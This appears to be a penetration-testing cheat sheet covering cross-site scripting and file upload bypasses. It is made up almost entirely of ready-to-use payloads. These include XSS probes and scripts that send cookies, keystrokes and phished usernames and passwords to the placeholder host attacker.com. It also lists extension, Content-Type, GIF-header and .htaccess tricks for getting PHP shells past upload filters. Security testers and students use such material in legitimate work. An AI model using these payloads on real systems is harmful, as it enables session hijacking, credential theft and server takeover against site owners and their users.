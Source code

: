 ## Cross-Site Scripting (XSS)

### Detection
```
# Basic payloads
<script>alert(1)</script>
<img src=x onerror=alert(1)>
<body onload=alert(1)>
"><script>alert(1)</script>
'><script>alert(1)</script>
javascript:alert(1)
```

### Exploitation
```
# Cookie stealing
<script>fetch('http://attacker.com/steal?cookie='+document.cookie)</script>
<script>new Image().src='http://attacker.com/steal?cookie='+document.cookie</script>

# Keylogging
<script>
document.onkeypress = function(e) {
  fetch('http://attacker.com/log?key='+String.fromCharCode(e.which))
}
</script>

# Phishing
<script>
document.body.innerHTML='<div class="login">'+
'<h2>Session expired</h2>'+
'<form action="http://attacker.com/phish">'+
'Username: <input type="text" name="username"><br>'+
'Password: <input type="password" name="password"><br>'+
'<input type="submit" value="Login">'+
'</form></div>';
</script>
```

## File Upload Vulnerabilities

### Bypass Techniques
```
# Extension bypasses
shell.php.jpg
shell.php;.jpg
shell.php%00.jpg (Null byte - PHP < 5.3)
shell.phtml
shell.php5
shell.shtml
shell.pHp

# Content-Type bypasses
Change Content-Type to image/jpeg or image/png in request

# File content bypasses
Add GIF header: GIF89a; to the beginning of the file

# .htaccess trick
Upload .htaccess file with:
AddType application/x-httpd-php .jpg
```
